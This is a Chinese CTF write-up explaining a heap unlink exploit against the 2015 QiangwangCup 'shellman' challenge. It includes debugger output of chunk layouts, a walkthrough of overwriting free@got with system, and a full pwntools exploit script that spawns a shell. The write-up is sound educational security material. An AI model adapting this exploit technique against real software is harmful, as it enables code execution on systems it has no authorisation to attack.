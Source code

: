 ```yaml
---
title: QiangwangCup-2015-shellman
date: 2018-10-11 19:52:38
tags: [CTF,unlink]
categories: heap
---
```

### 刚开始接触堆，将解决的不懂的记录一下，后续会继续更正之前错误的认识。

## 指向堆的指针的问题
程序存在一个结构体，存在三个变量
```
.bss:00000000006016C0 ; __int64 qword_6016C0[]
.bss:00000000006016C0 qword_6016C0    dq ?                    ; DATA XREF: main+38↑o
.bss:00000000006016C0                                         ; .text:0000000000400A90↑o ...
.bss:00000000006016C8 ; __int64 qword_6016C8[]
.bss:00000000006016C8 qword_6016C8    dq ?                    ; DATA XREF: sub_400B40+B5↑w
.bss:00000000006016C8                                         ; sub_400CE0+79↑w
.bss:00000000006016D0 ; __int64 qword_6016D0[]
.bss:00000000006016D0 qword_6016D0    dq ?                    ; DATA XREF: sub_400B40+BC↑w
.bss:00000000006016D0                                         ; sub_400C30+73↑r ...
```

申请了3个大小均为0xa0的chunk后，堆布局如下：
```
gef➤  heap chunks
Chunk(addr=0x1592010, size=0xb0, flags=PREV_INUSE)
    [0x0000000001592010     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61     aaaaaaaaaaaaaaaa]
Chunk(addr=0x15920c0, size=0xb0, flags=PREV_INUSE)
    [0x00000000015920c0     62 62 62 62 62 62 62 62 62 62 62 62 62 62 62 62     bbbbbbbbbbbbbbbb]
Chunk(addr=0x1592170, size=0xb0, flags=PREV_INUSE)
    [0x0000000001592170     2f 62 69 6e 2f 73 68 3b 63 63 63 63 63 63 63 63     /bin/sh;cccccccc]
Chunk(addr=0x1592220, size=0x20df0, flags=PREV_INUSE)  ←  top chunk
```

查看这个结构体，可以看到结构体的第一个变量表示是否正在使用，第二个变量表示申请的堆大小，第三个变量是一个指向堆的指针，`0x6016d0是一个指针`，这个指针指向堆上的一个地址0x1592010，这个地址也是malloc返回的地址。
```
gef➤  x/9gx 0x6016c0
0x6016c0:	0x0000000000000001	0x00000000000000a0
0x6016d0:	0x0000000001592010	0x0000000000000001
0x6016e0:	0x00000000000000a0	0x00000000015920c0
0x6016f0:	0x0000000000000001	0x00000000000000a0
0x601700:	0x0000000001592170
```

## 堆大小的问题
程序malloc(0xa0)申请了0xa0大小的chunk，查看堆布局发现在size字段中，大小为0xb0。
**所以申请了0xa0的chunk，该chunk真正的大小为0xa0+8+8=0xb0**
```
gef➤  heap chunks
Chunk(addr=0x1592010, size=0xb0, flags=PREV_INUSE)
    [0x0000000001592010     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61     aaaaaaaaaaaaaaaa]
```

如下所示，多了16字节的数据，分别是0x00和0x10。有一个疑问，在被释放的chunk中0x1592000中的数据应该是prev_size，在正被使用的chunk中，这部分数据全是0。而0x1592008中的数据就是当前chunk的大小和前一个chunk是否被使用的标志位。
```
gef➤  x/10gx 0x1592000
0x1592000:	0x0000000000000000	0x00000000000000b1
0x1592010:	0x6161616161616161	0x6161616161616161
0x1592020:	0x6161616161616161	0x6161616161616161
0x1592030:	0x6161616161616161	0x6161616161616161
0x1592040:	0x6161616161616161	0x6161616161616161
```

## system（chunk2中的内容）为什么会执行shell
调试发现，程序在执行`call   0x400620 <free@plt>`时会将chunk中的内容存放到rdi寄存器中
```
free@plt (
   $rdi = 0x00000000012410c0 → "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb[...]",
   $rsi = 0x0000000000000001,
   $rdx = 0x0000000000000000
)
```
所以/bin/sh;被存放到rdi寄存器，执行system函数时，就调用了shell。


## 程序
程序edit部分未能和原长度进行判断，导致出现堆溢出漏洞。第一次edit，free是为了获取一个原指向堆的可控指针`0x6016d0 -> 0x6016b8`。第二次edit，将该指针`0x6016d0`指向free@got，然后通过list获取free@got的地址，计算libc的基址，通过偏移计算出system的地址。第三次edit将system的地址写入free@got指向的地址，free函数就被替换成system函数了，释放chunk2后，即获取shell。

## EXP
```
#!/usr/bin/env python
from pwn import *

p = process('./shellman')

DEBUG = 0
VERBOSE = 1
if DEBUG:
	gdb.attach(p)
if VERBOSE:
	context(log_level = 'debug')

def list_code():
	p.recvuntil('>')
	p.sendline('1')
	p.recvuntil('SHELLC0DE 0: ')
	return p.read(16).decode('hex')[::-1].encode('hex')

def new_code(code):
	p.recvuntil('>')
	p.sendline('2')
	p.recvuntil(':')
	p.sendline(str(len(code)))
	p.recvuntil(':')
	p.sendline(code)

def edit_code(num,code):
	p.recvuntil('>')
	p.sendline('3')
	p.recvuntil(':')
	p.sendline(str(num))
	p.recvuntil(':')
	p.sendline(str(len(code)))
	p.recvuntil(':')
	p.sendline(code)

def delete_code(num):
	p.recvuntil('>')
	p.sendline('4')
	p.recvuntil(':')
	p.sendline(str(num))
chunk0_size = 0xa0
chunk1_size = 0xa0
ptr_addr = 0x6016d0
free_got = 0x601600

def exp():
	new_code('a'*0xa0)
	new_code('b'*0xa0)
	new_code('/bin/sh;'+'c'*0x98)
	prev_size_0 = p64(0)
	size_0 = p64(chunk0_size | 0x1)
	fd_0 = p64(ptr_addr - 0x18)
	bk_0 = p64(ptr_addr - 0x10)
	user_data = 'd' * (chunk0_size - 0x20)
	prev_size_1 = p64(chunk0_size)
	size_1 = p64(chunk1_size + 0x10)
	payload1  = prev_size_0 + size_0 + fd_0 + bk_0 +user_data + prev_size_1 + size_1
	gdb.attach(p)
	edit_code(0,payload1)
	delete_code(1)          # 0x6016d0 -> 0x6016b8

	payload2 = p64(0x0) + p64(0x1) + p64(0xa) + p64(free_got)
	edit_code(0,payload2)   # 0x6016d0 -> 0x601600(free_got)
	free_addr = list_code()
	print 'free_addr: ' + free_addr
	libc_base = int(free_addr,16) - 0x844f0
	print 'libc_base: ' + str(hex(libc_base))
	system_addr = libc_base + 0x45390
	print 'system_addr ' + str(hex(system_addr))
	edit_code(0,p64(system_addr))
	delete_code(2)
	p.interactive()

exp()
```

## REF
[http://www.ms509.com/2016/01/22/glibc-heap-ctf-writeup](http://www.ms509.com/2016/01/22/glibc-heap-ctf-writeup)
[http://www.cnblogs.com/shangye/p/6261606.html](http://www.cnblogs.com/shangye/p/6261606.html)
